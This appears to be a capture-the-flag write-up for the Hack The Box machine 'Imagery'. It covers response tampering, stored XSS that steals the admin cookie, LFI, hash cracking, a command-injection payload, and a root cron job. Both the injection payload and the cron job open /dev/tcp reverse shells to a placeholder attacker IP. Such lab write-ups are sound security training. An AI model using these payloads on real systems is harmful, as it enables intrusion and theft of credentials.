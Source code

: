 # 💭 HTB Machine: Imagery
![Screenshot](https://imgur.com/NhLRuc8.png)
### 🌐 Machine Information
- **IP:**  10.10.11.88
- **OS:** Linux
### 🧭 Reconnaissance
- I started with an nmap scan to discover open ports and services:: `nmap -A -p- 10.10.11.88 -oN nmap_scan`
![Screenshot](https://imgur.com/4dRAWG9.png)
- Nmap revealed two open ports—22, which runs SSH, and 8000, which runs HTTP.
- Visiting port 8000 in a browser redirected me to a web application.
![Screenshot](https://imgur.com/fbDJBAK.png)
### 🌐 Exploring the Web Application
- The site featured login and register pages, so I registered a new account and logged in.
- After logging in, I found an Upload feature (image upload).
![Screenshot](https://imgur.com/hmH0TIL.png)
![Screenshot](https://imgur.com/TTBIrAI.png)
- I tried uploading a simple XSS payload through the upload field, but it failed.
- I then intercepted the image upload request in Burp to see whether non-image payloads could be uploaded (e.g., a web shell). The upload returned an error and the uploaded image could not be accessed.
- While intercepting, I noticed a separate endpoint: /auth_status. Inspecting the response revealed flags like isAdmin and isTestUser.
![Screenshot](https://imgur.com/xclpWfM.png)
### 🛠️ Gaining Admin Access via auth_status Tampering
- I modified the intercepted /auth_status response to set isAdmin: true.
- After forwarding the modified response, a new Admin Panel button appeared in the header.
![Screenshot](https://imgur.com/mTK6Sjx.png)
- Notes: I kept the Burp proxy active and repeatedly altered /auth_status responses to maintain admin UI visibility while I explored.
- When accessing the Admin Panel, a request to /admin/users returned 403 Forbidden and some JSON. 
![Screenshot](https://imgur.com/T7swCdD.png)
I inspected the client-side source and found references that let me craft a valid-looking /admin/users JSON response. I used:
    ```
    {
      "success": true,
      "anyAdminExists": true,
      "users": [
        {
          "username": "a@a.a",
          "isAdmin": true,
          "displayId": "[see on the upload page]"
        }
      ]
    }
    ```
- Forwarding that request triggered another admin endpoint: /admin/bug_reports, which also returned 403 Forbidden. From the page source, I determined the bug details field was not sanitized — potential stored XSS if an admin views bug reports.
- Note: at this point i stopped my burp proxy
![Screenshot](https://imgur.com/S1mblfD.png)
### 💉 Exploiting Stored XSS to Steal Admin Cookie
- I crafted a malicious bug report payload so that when an admin viewed the report, the admin’s cookie would be exfiltrated to my listener that i set up with netcat: `nc -lvnp 80`
- There is a separate page for bug reporting, that page can be found on the page's footer
![Screenshot](https://imgur.com/A53JUMl.png)
- So i intercepted the report request and here is the payload i use:
![Screenshot](https://imgur.com/ES9ASyQ.png)
- The listener received an HTTP request containing the admin cookie, confirming the XSS worked.
![Screenshot](https://imgur.com/50mtyMO.png)
- I replaced my session cookie with the captured cookie, refreshed, and gained persistent admin access without modifying /auth_status anymore.
![Screenshot](https://imgur.com/RY1TGR7.png)
### 📁 Admin Panel: Download Logs & LFI
- In the Admin Panel, there was a Download Log functionality.
- I intercepted and manipulated the download request and discovered a Local File Inclusion (LFI) style behaviour — I was able to retrieve server-side files.
![Screenshot](https://imgur.com/Bcj8ZwX.png)
### 🔎 Source Code Discovery
- Using the admin UI / LFI, I enumerated the filesystem and reviewed source files. Notable paths:
-- /home/web/web/app.py
        ![Screenshot](https://imgur.com/hWkNNth.png)
-- /home/web/web/config.py
        ![Screenshot](https://imgur.com/xArdNFt.png)
- `config.py` referenced DATA_STORAGE_PATH pointing to db.json. Inspecting db.json revealed password hashes for admin and testuser.
![Screenshot](https://imgur.com/CPrpKpL.png)
- I cracked the testuser hash using online cracking (hashes.com):
![Screenshot](https://imgur.com/zFFCAOP.png)
- The admin hash could not be cracked with rockyou.txt (Hashcat exhausted).
### 🐍 Command Injection — Image Transformation
- While reading api_edit code, I discovered an image transformation function that executed shell commands without proper sanitization. The service called out to the system shell and included user-controlled parameters, which allowed command injection by terminating the expected argument and appending shell commands (e.g., ; [command]).
![Screenshot](https://imgur.com/6ouZncH.png)
- To be able to access Image Transformation feature, i need to be logged in as testuser, because before i've already cracked testuser's password, i can login as testuser
- After logged in as testuser, i need to upload an image, then go to gallery, use the Image Transformation feature to crop the image.
- Before Cropping the image, i turn on my burp proxy to intercept the crop image so i can inject my payload
- For the payload i use this: `"100; bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'; #",`
![Screenshot](https://imgur.com/wHZHvVD.png)
- Before forwarding the request, i set up a netcat listener to listen on port 4444
- Forward the request → got a reverse shell as the web user.
![Screenshot](https://imgur.com/RIL9fh8.png)
### 🗃️ Finding Backups & Encrypted Archive
- From the web shell, I discovered:
-- /var/backup/web_20250806_120723.zip.aes
-- /home/web/web/bot/admin.py (contained an admin password)
        ![Screenshot](https://imgur.com/ucqiakN.png)
- Because the .zip.aes file was encrypted, I transferred it to my local machine and used a Python pyAesCrypt-based bruteforce script to recover the archive password.Because the .zip.aes file was encrypted, I transferred it to my local machine and used a Python pyAesCrypt-based bruteforce script to recover the archive password.
![Screenshot](https://imgur.com/Y658oB2.png)
- The extracted archive contained more user data on its db.json, including users mark and web (as seen in /etc/passwd).
![Screenshot](https://imgur.com/GSLE93A.png)
- I found hashes for mark and cracked them via hashes.com
![Screenshot](https://imgur.com/pSebpPo.png)
- cracked password allowed switching to mark in the existing shell.
![Screenshot](https://imgur.com/A0j0qu7.png)
- As mark, I retrieved the user flag from /home/mark/user.txt.
![Screenshot](https://imgur.com/LZDNibq.png)
### ⬆️ Privilege Escalation to Root via Charcol
- While on the mark account, sudo -l showed mark could run a binary charcol as root.
![Screenshot](https://imgur.com/Y8WWpBU.png)
- Attempting to access charcoal initially required a passphrase. However, charcoal supported a --R (reset) parameter that requested mark's own password — allowing me to remove/reset the passphrase.
![Screenshot](https://imgur.com/fJIpSoj.png)
- After resetting, I got into the charcoal shell. charcoal runs as root and exposes several functions — notably backup and automated job.
- I attempted to use backup to pull /root/ but couldn't, even with path traversal.
![Screennshot](https://imgur.com/5lP6NiQ.png)
- The automated job feature, however, allowed adding jobs that run arbitrary shell commands as root.
- I used this command on the Charcol shell: `auto add --schedule "* * * * *" --command 'bash -c "bash -i >& /dev/tcp/YOUR_IP/6666 0>&1"' --name "root_shell"`
- So it can run the reverse shelll script every minute
- But before running the command, i setup a netcat to listen on port 6666
![Screenshot](https://imgur.com/WHkoe2u.png)
- Within a minute, the cron job executed as root and connected back — giving a root shell.
![Screenshot](https://imgur.com/J0CC6tu.png)
- Finally, I retrieved the root flag from /root/root.txt.
- ![Screenshot](https://imgur.com/jQhWpnk.png)